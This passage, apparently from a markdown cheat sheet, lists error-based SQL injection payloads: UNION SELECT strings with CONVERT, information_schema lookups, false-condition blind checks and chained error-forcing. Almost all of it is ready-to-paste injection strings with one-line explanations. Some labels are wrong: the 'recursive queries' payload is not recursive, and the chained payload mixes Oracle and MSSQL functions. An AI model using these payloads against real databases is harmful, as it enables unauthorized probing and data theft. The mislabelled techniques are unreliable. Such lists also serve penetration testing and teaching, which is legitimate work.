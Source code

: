 ```  
' UNION SELECT CONVERT(INT, 'abc') --  
```

Use MSSQL-specific functions incorrectly to trigger errors.

### 6. Information Schema Queries

#### Invalid Table Name

```  
' UNION SELECT table_name FROM information_schema.tables WHERE table_name = 'non_existent_table' --  
```

Query the information schema with an invalid table name.

### 7. Blind SQL Injection Errors

#### Deliberate False Condition

```  
' AND 1=(SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='non_existent_database') --  
```

Use a false condition to force an error indirectly.

### 8. Advanced Error Techniques

#### Recursive Queries

```  
' UNION SELECT 1 FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3 UNION SELECT 4) AS temp WHERE temp=1 --  
```

Use recursive queries to force errors.

#### Invalid Hexadecimal Values

```  
' UNION SELECT 0xZZ --  
```

Use invalid hexadecimal values to trigger errors.

### 9. Combining Techniques

#### Chained Error Forcing

```  
' UNION SELECT CONVERT(INT, 'abc') UNION SELECT 1/0 UNION SELECT TO_NUMBER('abc', '999') --  
```

Combine multiple error-forcing techniques for more robust results.
